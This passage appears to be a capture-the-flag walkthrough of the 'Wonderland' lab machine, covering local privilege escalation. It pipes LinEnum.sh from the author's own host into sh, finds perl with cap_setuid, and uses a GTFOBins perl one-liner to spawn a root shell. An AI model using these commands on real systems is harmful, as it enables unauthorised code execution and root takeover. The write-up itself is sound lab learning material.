 ```
hatter@wonderland:/home/hatter$ sudo -l
[sudo] password for hatter: 
Sorry, user hatter may not run sudo on wonderland.
```

` hatter doesn't have any sudo permission `

Let's use external script to check privilege escalation

**I have downloaded the file [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) file on my local system and started a python server and accessed LineEnum.sh in ssh via curl**


`hatter@wonderland:/home/hatter$ curl http://10.9.4.169:8000/LinEnum.sh | sh `

Important section POSIX
```

[+] Files with POSIX capabilities set:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Let's search [GTFOBins for perl capabilities](https://gtfobins.github.io/gtfobins/perl/)

`./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

we can use this to get root access

## Important
When I first tried it, it said permission denied. I kept trying and it kept denying, then I checked for `id` command and it showed `guid` for rabbit

If you get that too, use
`ssh hatter@10.10.254.5` using password from `password.txt`

Run perl privilege escalation script again,

This time it will run successfully

## user.txt
cat /root/user.txt

## root.txt
cat /home/alice/root.txt

